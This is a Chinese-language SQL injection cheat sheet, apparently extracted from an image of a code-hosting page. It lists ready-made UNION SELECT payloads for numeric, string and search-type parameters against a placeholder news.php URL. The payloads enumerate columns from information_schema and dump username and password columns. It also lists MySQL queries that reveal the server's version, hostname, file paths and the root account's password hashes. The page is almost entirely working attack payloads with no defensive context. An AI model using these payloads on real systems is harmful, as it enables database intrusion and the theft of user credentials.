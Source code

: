   

**字符型**

```
http://www.xxx.cn/news.php?p=1&id=4  and 1=2 union select 1,group_concat(column_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='表名' #
```

表名也可以使用十六进制

  

**搜索型**

```
x%' and 1=2 union select 1,2,group_concat(column_name),4,5,6,7,8,9,.... from information_schema.columns where table_name='表名' #
```

表名也可以使用十六进制

### **查表中的数据**

**数字型**

```
http://www.xxx.cn/news.php?p=1&id=4   and 1=2 union select 1,group_concat(username,password),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from 表名
```

  

**字符型**

```
http://www.xxx.cn/news.php?p=1&id=4  and 1=2 union select 1,group_concat(username,password),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from 表名 #
```

  

**搜索型**

```
x%' and 1=2 union select 1,2,group_concat(username,password),4,5,6,7,8,9,.... from 表名 #
```

显示版本：`select version();`

显示字符集：`select @@character_set_database;`

显示数据库: `show databases;`

显示表名：`show tables;`

显示计算机名：`select @@hostname;`

显示系统版本：`select @@version_compile_os;`

显示mysql路径：`select @@basedir;`

显示数据库路径：`select @@datadir;`

显示root密码：`select User,Password from mysql.user;`
